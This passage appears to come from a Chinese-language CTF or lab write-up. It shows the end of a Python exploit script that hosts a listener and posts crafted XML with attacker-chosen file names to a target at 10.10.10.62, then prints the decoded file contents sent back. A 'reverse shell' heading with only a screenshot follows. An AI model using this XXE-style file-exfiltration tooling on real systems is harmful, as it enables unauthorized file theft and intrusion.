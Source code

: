 ```bash
    data = base64.b64decode(b64data).decode().strip()
    if data != prev_data:
        print(data)
        prev_data = data
    return ""


def web():
    app.run(host="0.0.0.0", port=80)


if __name__ == "__main__":
    threading.Thread(target=web, daemon=True).start()
    time.sleep(1)
    #app.run(debug=True, use_reloader=False, host="0.0.0.0", port=80)
    while True:
        try:
            fn = input("file> ")
            xml = xml_template.format(fn)
            requests.post('http://10.10.10.62:56423', data=xml)
        except KeyboardInterrupt:
            print()
```

## 反弹 shell

执行脚本来反弹 shell

[![](assets/1699929055-f3581562612c8f7a60541e8dd09a6471.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231113104053-107d2986-81ce-1.png)
